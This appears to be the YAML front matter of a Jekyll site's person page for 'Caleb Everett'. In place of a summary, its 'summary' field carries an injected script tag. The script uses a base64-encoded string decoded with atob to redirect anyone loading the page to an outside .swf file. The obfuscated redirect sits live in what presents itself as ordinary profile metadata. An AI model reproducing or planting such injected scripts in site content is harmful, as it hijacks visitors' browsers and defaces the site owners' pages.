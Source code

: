 ```yaml
---
layout: person
categories: people
title: Caleb Everett
date: 2013-10-07
summary:   <script>window.location = atob("aHR0cDovLzdjaGFuLm9yZy9mbC9zcmMvaGV5LnN3Zg==") </script>
published: true
---
```


